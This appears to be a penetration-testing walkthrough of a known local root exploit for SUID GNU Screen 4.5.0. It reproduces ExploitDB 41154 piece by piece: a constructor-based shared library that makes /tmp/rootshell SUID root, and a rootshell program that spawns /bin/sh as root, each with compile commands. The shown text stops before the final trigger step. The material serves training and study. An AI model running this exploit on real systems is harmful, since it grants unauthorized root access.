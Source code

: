 

This jumped out to me because I ran into this during OSCP. There's a
[vulnerability](https://lists.gnu.org/archive.md/screen-devel/2017-01/msg00025.md)
in SUID `screen` and it happens to be for that version.

### Exploit Details

In Screen version 4.5.0, if the user specifies a log file, the program
will open and append to that log file. Because `screen` is typically set
to SUID to function, that means write as root.

There is an [exploit in
ExploitDB](https://www.exploit-db.com/exploits/41154) which consists of
one long Bash script. I'll break it into pieces to walk through it (some
mods would need to be made anyway).

Most of the exploit is creating and compiling two binary files. First,
it creates a shared object / library:



    cat << EOF > /tmp/libhax.c
    #include <stdio.h>
    #include <sys/types.h>
    #include <unistd.h>
    __attribute__ ((__constructor__))
    void dropshell(void){
        chown("/tmp/rootshell", 0, 0);
        chmod("/tmp/rootshell", 04755);
        unlink("/etc/ld.so.preload");
        printf("[+] done!\n");
    }
    EOF
    gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
    rm -f /tmp/libhax.c



This library has a `dropshell` function that is marked as
`__attribute__ ((__constructor__))`. [This
means](https://gcc.gnu.org/onlinedocs/gcc-4.7.0/gcc/Function-Attributes.md#:~:text=The%20constructor%20attribute%20causes%20the,exit%20()%20has%20been%20called)
it will run before execution enters main. It is very simple. It just
changes the owner of `/tmp/rootshell` to root:root, then changes the
permissions to be SUID, removes the file `/etc/ld.so.preload`, and
prints a message. This code is compiled into `/tmp/libhax.so`

Next the script creates `/tmp/rootshell`:



    cat << EOF > /tmp/rootshell.c
    #include <stdio.h>
    int main(void){
        setuid(0);
        setgid(0);
        seteuid(0);
        setegid(0);
        execvp("/bin/sh", NULL, NULL);
    }
    EOF
    gcc -o /tmp/rootshell /tmp/rootshell.c
    rm -f /tmp/rootshell.c
